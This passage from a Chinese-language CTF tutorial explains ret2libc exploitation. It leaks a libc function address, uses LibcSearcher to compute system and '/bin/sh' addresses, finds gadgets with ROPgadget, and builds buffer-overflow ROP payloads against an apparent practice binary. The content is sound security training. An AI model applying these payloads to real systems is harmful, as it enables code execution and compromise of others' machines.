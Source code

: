通过泄露的 puts 地址，可以查找到相应的 libc 版本，在 libc 中各个函数之间的偏移位置不变，可以通过计算出 libc 的基地址，再计算 system 和 binsh 的绝对地址。  
计算公式：  
已知 puts_addr(上边已经得出)和 libc 中 puts 的地址，算出 libc 的基地址为
`libcbase=puts_addr - libc.dump('puts')`，其中 dump 函数是一个 libcSeacher 工具里的一个方法，可以直接找到在 libc 中其对应函数的地址。

```python
system_addr=libcbase + libc.dump('system')
binsh_addr=libcbase + libc.dump('str_bin_sh')
```

### 3.2. 寻找 gadget

```
ROPgadget --binary <filename> | grep <gadget>
ROPgadget --binary <filename> --string <searchString>
ROPgadget --binary <filename> --only int
```

分析大概要构造的 payload 应该是

```
[buf] + [gadget rdi] + ["/bin/sh"的地址] + [system函数的地址]
```

- 64 位万能 gadget，基本所有的 x64 程序都存在。前半段用于赋值 rdi（将栈顶数据给 rdi，作为函数调用参数），后半段用于跳到其他代码片段。

```
pop rdi;ret;
```

### 3.3. 构造 ROP 链

首先要泄露出 libc 版本，从而获取 libc 基址。通过 libc 基址计算出 system()函数地址
例如通过`write`函数泄露出 libc 地址

```python
elf=ELF("./babyrop")
write_plt=elf.plt['write']
write_got=elf.got['write']
# leak libc, 覆盖read地址，调用write函数
# 相当于执行write(1, write_got, 4), 最后返回main函数
#           填充字符       调用write函数      ret address    参数1      参数2           参数3
payload = 'a'*(0xe7+4) + p32(write_plt) +  p32(main_addr) + p32(1) + p32(write_got) + p32(4)
```

注：在 64 位程序中，应将变量 pop 到`rdi`中，以作为调用函数的参数  
将 payload 发送后，能获取到`write`函数在 libc 中动态地址，由于其后 12 位是不变的，故通过 LibcSearch 查询 libc

```python
from LibcSearcher import *

libc = LibcSearcher('write', write_leak)
# 计算libc基址
libc_base = write_leak - libc.dump('write')
# 获取system地址
sys_addr = libc_base + libc.dump('system')
# 获取'/bin/sh'字符地址
str_bin_sh = libc_base + libc.dump('str_bin_sh')
# 对于64位程序，应该先把str_bin_sh存入rdi中，参考使用gadget进行操作
payload = 'a'*80 + p32(sys_addr) + p32(main_addr) + p32(str_bin_sh)
# payload = 'A'*80 + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```
